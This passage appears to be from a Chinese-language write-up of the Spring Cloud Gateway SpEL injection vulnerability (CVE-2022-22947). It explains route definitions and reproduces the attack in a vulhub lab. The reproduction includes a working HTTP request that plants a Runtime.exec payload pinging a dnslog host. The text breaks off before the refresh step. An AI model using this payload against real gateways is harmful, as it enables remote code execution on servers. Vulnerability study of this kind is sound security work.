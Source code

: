 ~~~json
        "args": {
          "_genkey_0": "/demoApi/**"
        },
        "name": "Path"
      }
    ],
    "uri": "lb://demo-api"
  }
]
~~~

其实路由的定义就是RouteDefine对象的创建，根据json反序列化成一个对象即可

- id 路由配置的id名
- uri 跳转的地址，lb://表示基于服务注册的负载均衡
- order 路由的顺序，越小越先匹配
- predicates 断言列表，比如根据post并且path是什么开头，满足条件才转发
- filters 过滤器列表，匹配后需要做的一些操作，比如增加一个请求头字段

filter中传入valu的值 为#{ 开头同时 } 结尾，就会进入到 SPEL 解析的部分

gateway actuator相关代码没有对SpEL表达式执行的context做限制, 默认为StandardEvaluationContext，先创建路由，filter中写入恶意spel表达式，然后refresh执行，即可在服务器上执行spel表达式中的代码。

### 漏洞复现

环境 /vulhub/spring/CVE-2022-22947

通过接口创建路由

~~~
POST /actuator/gateway/routes/test1 HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 180

{
	"id": "test1",
	"filters": [{
		"name": "RewritePath",
		"args": {
			"replacement": "#{T(java.lang.Runtime).getRuntime().exec(\"ping d4eauu.dnslog.cn\")}"
		}
	}]
}
~~~

刷新使表达式执行

